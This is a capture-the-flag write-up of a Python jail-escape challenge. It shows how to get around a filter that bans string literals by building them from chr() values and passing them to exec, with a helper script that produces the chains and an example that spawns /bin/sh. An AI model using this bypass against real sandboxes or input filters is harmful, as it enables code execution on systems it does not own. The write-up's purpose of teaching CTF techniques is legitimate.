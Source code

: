 
Tags: **Miscellaneous**, **Medium**

### Challenge
In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

### Downloadable Files
[link](files/nehebkaus-trap)

### Solution

A good challenge, and what you were expected to do is design a jail break from a python REPL.
##### REPL
So, what I did first, was try to understand what kind of interactive interface we were dealing with - i tried `ls`, and it gave me an error, and submitting that to google, all results pointed to `python`
##### Commands
I tried a couple of python commands, and characters, and I made a list, which would help me know which programs I might use to escape the jail i.e.
```
cmds => bin,help,id,import,dir,globals,print,eval,str,exec,ord,sys
chars => {}<>TAB|()*[]=:+@!#$%^\-?
```
##### Thinking...
I thought for a while, tried to google stuff, and after a number of trial and errors, I knew I had to find a way to use numbers to craft a solution, because strings were restricted, and i couldn't use even underscores.
That's when I remembered..chr,ord..which funny enough, I had thought about but I couldn't conceptualize a working solution..playing around with it on a separate REPL, that's when this hit me - i could use **chr()** to produce chars and use **+** to join these characters and produce a **string**!!

Now everything was easier - since `exec` was enabled, I could run system commands with it i.e.
`exec('import os; os.system("ls -la"))'`

Here is the script to help out with printing the character chain:
```python
import sys

try:
        ss = sys.argv[1]
except:
        print("Error")
        exit(0)

result = ""
for s in ss:
        result+=(f"chr({ord(s)})+")

print(result[:-1])
```

to try directory listing, i run this script (`script.py`) as follows:
```python
python script.py "import os; os.system('/bin/sh')"
```
this printed some `chr(<DIGIT>)+` chain which I passed to our program and had code execution.

### Screenshots
![Screenshot_20230320_004526](https://user-images.githubusercontent.com/74212182/226214493-9d84f430-08e1-4593-8c78-feebd38a0fec.png)

![Screenshot_20230320_004839](https://user-images.githubusercontent.com/74212182/226214516-0b243579-cb4a-4c0b-b7fb-9ed69b7799cc.png)

![Screenshot_20230320_005226](https://user-images.githubusercontent.com/74212182/226214521-b4a09733-1c93-4b43-8a47-ba3f4a75a1c6.png)

![Screenshot_20230320_005309](https://user-images.githubusercontent.com/74212182/226214525-3959f297-7fff-4ea1-8281-b3cf7d85c908.png)
